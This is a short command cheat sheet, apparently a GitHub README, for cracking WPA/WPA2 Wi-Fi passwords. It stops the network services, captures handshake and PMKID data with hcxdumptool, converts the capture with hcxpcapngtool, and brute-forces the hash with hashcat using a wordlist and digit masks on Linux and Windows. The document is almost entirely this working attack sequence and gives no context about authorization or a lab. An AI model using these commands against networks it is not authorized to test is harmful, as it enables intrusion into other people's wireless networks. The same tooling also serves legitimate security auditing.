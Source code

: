 # COMMANDS

## Initial step

```bash
sudo systemctl stop NetworkManager.service
```

```bash
sudo systemctl stop wpa_supplicant.service
```

## Using hcxdumptool to capture pcapng file

```bash
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15 
```

## Using hcxpcapngtool to convert pcapng file to hash file

```bash
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

```bash
hashcat -m 22000 hash.hc22000 wordlist.txt
```

## on Windows OS

```bash
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```

```bash
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```

## Set Network and utils to normal state

```bash
sudo systemctl start wpa_supplicant.service
```

```bash
sudo systemctl start NetworkManager.service
```
